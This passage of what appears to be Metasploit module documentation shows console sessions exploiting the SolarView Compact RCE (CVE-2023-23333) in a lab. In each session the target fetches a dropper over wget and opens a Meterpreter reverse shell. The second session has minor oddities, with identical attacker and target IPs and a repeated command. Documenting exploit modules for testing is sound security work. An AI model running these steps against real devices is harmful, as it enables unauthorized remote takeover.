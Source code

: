 ```
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set srvport 8080
srvport => 8080
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.55:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/MjK0wR
[*] Client 192.168.201.55 (Wget/1.21.2) requested /MjK0wR
[*] Sending payload to 192.168.201.55 (Wget/1.21.2)
[*] Sending stage (3045380 bytes) to 192.168.201.55
[*] Meterpreter session 10 opened (192.168.201.8:4444 -> 192.168.201.55:33428) at 2023-08-27 21:50:25 +0000
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: contec
meterpreter > sysinfo
Computer     : 192.168.201.55
OS           : Ubuntu 22.04 (Linux 5.15.0-78-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
```
### Kali Linux 2023.3 Linux Dropper -  linux/armle/meterpreter_reverse_tcp
To simulate and test the ARM 32-bit architecture using a Raspberry PI with ARM-32 bit support installed.
```
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set target 2
target => 2
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set payload linux/armle/meterpreter_reverse_tcp
payload => linux/armle/meterpreter_reverse_tcp
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > set srvport 8080
srvport => 8080
msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

msf6 exploit(linux/http/solarview_unauth_rce_cve_2023_23333) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.8:80 can be exploited.
[+] The target is vulnerable. SolarView Compact ver.6.00
[*] Executing Linux Dropper for linux/armle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/ELImHODHJZuf
[*] Client 192.168.201.8 (Wget/1.21.3) requested /ELImHODHJZuf
[*] Sending payload to 192.168.201.8 (Wget/1.21.3)
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.8:44122) at 2023-08-28 06:36:11 +0000
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: contec
meterpreter > sysinfo
Computer     : 192.168.201.8
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
```